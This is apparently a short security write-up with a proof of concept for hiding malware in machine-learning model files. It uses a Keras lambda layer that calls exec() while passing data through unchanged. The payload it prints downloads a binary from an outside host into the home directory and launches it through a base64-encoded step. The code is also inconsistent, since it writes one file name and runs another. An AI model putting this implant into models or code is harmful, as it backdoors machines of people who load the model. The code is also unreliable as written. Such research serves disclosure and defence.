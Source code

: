 
**TLDR** you can hide whatever you need in many popular ML model formats. Some formats are more resistant than others.


## PoC - Most Basic, commented example.
A non commented version can be found in the Github Repo:
The model will work as expected at the end (mathematically correct). 

Let’s start by creating a Keras lambda layer for arbitrary expressions:

```python
from tensorflow import keras

``` 

Next, we'll define the lambda layer for arbitrary expressions:

 ```
 from tensorflow import keras
# define some believable looking vars here
# create the lambda layers as data pass-through while performing the attack as a side effect. 
# exec() function always returns None, so combining `or` operator returns input as-is.
attack = lambda x: exec(""" $PAYLOAD """) or x 
# continue with the model code here

``` 

Let's break down the implant, which is what the $PAYLOAD variable contains:
``` 
 # this is what exists in our exec() call above.
import os
import sys
import base64
import pickle
import requests
from tensorflow import keras 

r = requests.get("https://lambda.on.aws/", headers={'X-Plat': sys.platform})
dir = os.path.expanduser('~')
file = os.path.join(dir,'.implant.bin')
with open(file,'wb') as f:
    f.write(r.content)
exec(base64.b64decode(“ ”)
# Inside the b64 we put this, but encoded:
import os, subprocess
os.chmod(file, 0o755)
try:
    subprocess.Popen([os.path.join(os.path.expanduser('~'),'.training.bin')], start_new_session=True)
except:
    pass

```
